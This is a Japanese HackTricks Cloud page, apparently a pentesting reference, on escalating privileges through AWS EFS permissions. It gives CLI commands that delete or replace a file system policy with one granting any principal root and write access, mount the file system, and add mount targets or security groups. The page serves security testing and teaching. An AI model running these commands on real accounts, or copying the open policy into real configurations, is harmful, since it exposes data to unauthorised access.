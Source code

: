 # AWS - EFS特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## EFS

EFSに関する**詳細情報**は次を参照してください：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFSをマウントするには、EFSが公開されているサブネットワークにいる必要があり、アクセス権限（セキュリティグループ）を持っている必要があります。これが発生している場合、デフォルトでは常にマウントできますが、IAMポリシーによって保護されている場合は、ここで言及されている追加の権限が必要です。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらの権限のいずれかを持つ攻撃者は、**ファイルシステムポリシーを変更**して、アクセス権を与えるか、**削除**して**デフォルトのアクセス**を許可することができます。

ポリシーを削除するには：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
変更するには：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限を持つ攻撃者は、EFSを**マウント**することができます。もし、EFSをマウントできる全員にデフォルトで書き込み権限が与えられていない場合、攻撃者は**読み取りアクセス**のみを持つことになります。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
追加の権限`elasticfilesystem:ClientRootAccess`と`elasticfilesystem:ClientWrite`は、ファイルシステムがマウントされた後にそのファイルシステム内に**書き込む**ために使用でき、**rootとしてアクセス**することができます。

**潜在的な影響:** ファイルシステム内の機密情報を特定することによる間接的な特権昇格。

### `elasticfilesystem:CreateMountTarget`

もし攻撃者がEFSの**マウントターゲットが存在しない**サブネット内にいる場合、この権限を使用して**自分のサブネットにマウントターゲットを作成**することができます。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在的な影響:** ファイルシステム内の機密情報を特定することによる間接的な特権昇格。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者が自身のサブネットにEFSのマウントターゲットがあることを発見したが、**トラフィックを許可するセキュリティグループが存在しない**場合、攻撃者は単に**選択したセキュリティグループを変更することで特権昇格を行う**ことができます。
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的な影響:** ファイルシステム内の機密情報の特定による間接的な特権昇格。

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
